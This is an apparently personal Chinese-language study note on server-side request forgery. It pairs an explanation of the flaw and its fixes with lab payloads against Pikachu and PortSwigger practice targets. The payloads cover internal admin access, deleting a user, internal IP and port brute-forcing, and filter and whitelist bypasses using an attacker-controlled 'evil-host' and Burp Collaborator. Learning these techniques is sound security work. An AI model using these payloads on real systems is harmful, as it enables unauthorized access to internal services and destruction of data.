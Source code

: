 ## ==未归纳==

SSRF（服务器端请求伪造）漏洞是一种通过诱导服务器发起未经授权的请求，从而访问内部资源、敏感数据或对外部系统发起攻击的安全漏洞。

一般在用户可以请求服务器访问第三方资源的业务中存在

例如：

1. 发送 `HTTP` 请求：https://www.example.com/xxx.php?image=https://www.kali.org/kali.jpg
2. 服务器接收到请求之后获取 http://www.kali.org/kali.jpg 图片
3. 服务器获取到图片后将图片返回给用户

常见位置：

1. 分享：通过 `url` 地址分享网页内容

2. 转码服务

3. 在线翻译

4. 图片加载与下载：通过 `url` 地址加载或下载图片

5. 图片、文章收藏功能

6. 未公开的 `api` 实现以及其他调用 `url` 的功能

7. 从 `url` 关键字中寻找：

   `share` `wap` `url` `link` `src` `source` `target` `u` `3g` `display` `sourceURl` `imageURL` `domain` 

8. `php` 中容易存在 `ssrf` 的函数：

   `curl`  `file_get_content` 

常见用途：

1. 任意文件读取

   > 可利用 `ssrf` 漏洞读取 `web` 服务用户能够访问的所有文件

2. 内外网 `ip` 端口和服务扫描

   > 通常情况下黑客只能扫描目标服务器的外网端口，可以利用 `ssrf` 漏洞扫描不对外开放的内网端口

3. 内外网主机漏洞利用

>  `get` 
>
>  >  `sql` 注入
>
>  `post` 
>
>  > `sql` 注入，`rce` 调用

修复思路：

1. 限制协议
2. 限制 `ip` 
3. 限制端口

可能存在 ssrf 的 url 样式

```
http://test.local/pikachu/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1/pikachu/vul/ssrf/ssrf_info/info1.php
```

## 验证

**直接验证**

利用 `ssrf` 漏洞获取一个外网的页面

```
http://test.local/pikachu/vul/ssrf/ssrf_curl.php?url=http://hack.local/
```

![利用 ssrf 漏洞获取一个外网的页面](./../../../images/SSRF/%E5%88%A9%E7%94%A8%20ssrf%20%E6%BC%8F%E6%B4%9E%E8%8E%B7%E5%8F%96%E4%B8%80%E4%B8%AA%E5%A4%96%E7%BD%91%E7%9A%84%E9%A1%B5%E9%9D%A2.png)

**`burp` 验证**

复制 `Collaborator` 域名

```
9gqpdvx9fs7gyu2rlergsb63cuil6cu1.oastify.com
```

![复制 Collaborator 域名](./../../../images/SSRF/%E5%A4%8D%E5%88%B6%20Collaborator%20%E5%9F%9F%E5%90%8D.png)

通过 `ssrf` 访问以上域名

```
http://test.local/pikachu/vul/ssrf/ssrf_curl.php?url=http://9gqpdvx9fs7gyu2rlergsb63cuil6cu1.oastify.com/
```

![通过 ssrf 访问以上域名](./../../../images/SSRF/%E9%80%9A%E8%BF%87%20ssrf%20%E8%AE%BF%E9%97%AE%E4%BB%A5%E4%B8%8A%E5%9F%9F%E5%90%8D.png)

> 若网站有 `cdn` 可通过 `dns 轮询` 得到主服务器 `ip` 

---

可能存在于库存的查询功能

通过后端 api 查询的功能可通过伪造 api 伪造用户请求

```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=6&storeId=1
```

> 库存检查功能，可以从内部系统获取数据

构造 api 请求

```
stockApi=http://localhost/admin
```

> 获取 `/admin` URL 的内容

```
stockApi=http://localhost/admin/delete?username=carlos
```

> 删除用户 `carlos` 
>
> 在面板查看删除链接源码即可构造删除命令

在控制台 ip 未知的情况下可通过爆破获取

```
stockApi=http://192.168.0.§1§/admin
```

有时可能需要爆破端口

```
stockApi=http://192.168.0.§1§:§80§/admin
```

某些网站可能对特定 IP 的访问或者特定的路径进行过滤

```
使用 127.0.0.1 的替代 IP 表示形式，例如 2130706433 、 017700000001 或 127.1 。
注册您自己的域名，解析为 127.0.0.1 。您也可以使用 spoofed.burpcollaborator.net 来实现此目的。(http://test.local:8080/admin)
使用 URL 编码或大小写变化来混淆被阻止的字符串（有时需要双 URL 编码）。(http://127.0.0.1:8080/AdMi%6e)
提供您控制的 URL，该 URL 会重定向到目标 URL。尝试对目标 URL 使用不同的重定向代码以及不同的协议。例如，在重定向期间从 http: URL 切换到 https: URL 已被证明可以绕过某些反 SSRF 过滤器。(https://127.0.0.1:8080/admin)
```

> 尝试访问一个目标本地 IP，并构造正常操作，若出发安全机制则是 IP 被过滤
>
> ```
> http://127.0.0.1:8080/product/stock/check?productId=1&storeId=1
> ```
>
> 通过替代 IP 表示形式，访问不存在的路径，若未触发安全机制则成功绕过 IP 过滤
>
> ```
> http://127.1:8080/test
> ```
>
> 得到 IP 后爆破路径，触发 WAF 则是路径被过滤
>
> ```
> http://127.1/admin
> ```
>
> 可尝试对路径大小写或者 URL 绕过（可尝试使用 Hackvertor 进行双 URL 编码）
>
> ```
> http://127.1/AdMi%4e
> ```

白名单过滤可以通过以下方式绕过

> - 您可以使用 `@` 字符将凭据嵌入 URL 中的主机名之前。例如：
>
>   ```
>   https://expected-host:fakepassword@evil-host
>   ```
>
> - 您可以使用 `#` 字符来指示 URL 片段。例如：
>
>   ```
>   https://evil-host#expected-host
>   ```
>
> - 您可以利用 DNS 命名层次结构将所需的输入放入您控制的完全限定的 DNS 名称中。例如：
>
>   ```
>   https://expected-host.evil-host
>   ```
>
> - 您可以对字符进行 URL 编码以混淆 URL 解析代码。
>
> - 如果实现过滤器的代码处理 URL 编码字符的方式与执行后端 HTTP 请求的代码不同，则这尤其有用。您还可以尝试双编码字符；一些服务器对它们收到的输入进行递归 URL 解码，这可能会导致进一步的差异。
>
> - 您可以结合使用这些技术。

有时可以通过利用开放重定向漏洞来绕过基于过滤器的防御。

> 例如，该应用程序包含一个开放重定向漏洞，其中以下 URL：
>
> ```
>  /product/nextProduct?currentProductId=6&path=/product?productId=3
> ```
>
> 返回重定向到：
>
> ```
>  /product?productId=3
> ```
>
> 您可以利用开放重定向漏洞绕过URL过滤，利用SSRF漏洞，如下：
>
> ```
> POST /product/stock HTTP/1.0
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 118
> 
> stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
> ```

若存在无回显的 ssrf 则可利用 Burp Collaborator 修改  Referer 标头中指定的 URL 测试

```
Referer: https://test.oastify.com/
```

可能存在 SSRF 的 URL

```
http://www.xxx.com/vul.php?url=http://www.xxc.com/xxx.jpg
http://share.xxx.com/index.php?url=http://test.com
```

